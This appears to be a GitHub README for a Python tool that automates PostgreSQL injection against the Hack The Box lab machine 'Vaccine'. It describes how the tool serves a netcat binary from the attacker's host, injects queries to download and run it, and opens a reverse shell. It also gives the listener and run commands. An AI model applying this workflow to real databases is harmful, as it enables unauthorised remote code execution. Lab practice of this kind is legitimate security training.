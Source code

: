 # PostgreSQL-Shell

## DESCRIPTION
A Python program that automates the process of error-based PostgreSQL injection RCE on the MegaCorp Car Catalogue-
Website running on of one of the Hack The Box's machine 'Vaccine' http://10.10.10.46/dashboard.php

It provides reverse shell connection to the attacker by mainly doing the followings:
1. Copies the origial Netcat file (/usr/bin/nc) to the local /tmp directory of the attacker's machine.
2. Sets up an HTTP server on the local /tmp directory.
3. Creates a new table in the database of the target server.
4. Injects a query that initiates a file transfer command to download a Netcat binary file from attacker's machine.
5. Injects a query that executes the downloaded Netcat to initiate reverse shell.

This is to be used for educational and security testing purposes only and I'm not responsible for the misuse of this program.


## REQUIREMENTS
The attacker must have been authenticated, and have obtained the session cookie.


## ORIGINAL SOURCE
https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection  
https://www.aldeid.com/wiki/HackTheBox-StartingPoint-Vaccine  
Modifier: lkim94


## CAUTION
The shell disconnects when there's a few minutes of inactivity.  
Terminating this program's process while the shell is active can also cause unexpected disconnection, and improper houseclean.


## USAGE

1. Set up a listener --- `nc -lvnp <listen_port#>`  
2. Run the program from another terminal window --- `python3 PostgreSQL-Shell.py -L <attacker_ip> -l <listen_port#> -t <target_ip> -p <url_parameter> -c <cookie>`  


## EXAMPLE
1. Setting up a listener.  
![PostgreSQL-ShellyPoC1](https://user-images.githubusercontent.com/83319068/130559443-c6f3554e-2a73-41a9-bb38-603e912230be.png)

2. Running the program.  
![PostgreSQL-ShellyPoC2](https://user-images.githubusercontent.com/83319068/130880953-d5545818-00f2-419f-94bd-033b516c7048.png)

3. Shell spawning on the listener.  
![PostgreSQL-ShellyPoC3](https://user-images.githubusercontent.com/83319068/130880966-17760935-4a43-4144-ae92-b6ccf5e3396c.png)

4. Program quitting by performing houseclean.  
![PostgreSQL-ShellyPoC4](https://user-images.githubusercontent.com/83319068/130880971-b16b4c38-9818-45e3-a1f9-972e8687dd45.png)
